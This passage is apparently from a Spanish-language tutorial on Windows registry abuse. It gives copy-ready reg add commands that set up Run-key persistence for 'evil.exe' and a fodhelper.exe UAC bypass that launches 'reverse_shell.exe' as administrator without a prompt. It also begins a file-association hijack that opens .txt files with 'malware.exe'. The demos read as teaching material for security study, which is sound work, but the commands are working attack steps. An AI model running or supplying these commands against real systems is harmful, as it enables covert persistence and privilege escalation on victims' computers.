 ```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### 💻 En Windows:

```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\Users\victima\evil.exe" /f
```

🧠 _Este comando crea una entrada en el registro que ejecuta “evil.exe” al iniciar sesión._

---

### 🧪 DEMO 2 – Bypass UAC con `fodhelper.exe`

#### ¿Qué es?

`fodhelper.exe` es una herramienta del sistema con **auto-elevación de privilegios (sin UAC prompt)**.

Si se modifica la clave `ms-settings`, puede ejecutar un ejecutable **sin que se muestre UAC**.

### Ruta:

```
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
```

#### 💻 En Windows (simulación):

```cmd
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\Users\victima\reverse_shell.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v "DelegateExecute" /f
```

Después:

```cmd
fodhelper.exe
```

✅ Ejecutará el payload **como administrador sin pedir contraseña**.

---

### 🧪 DEMO 3 – Hijacking de asociaciones de archivos

#### ¿Qué es?

Modificar las claves del registro para cambiar qué programa se ejecuta al abrir un tipo de archivo.

#### Ejemplo:

Redefinir `.txt` para abrir con `malware.exe`.
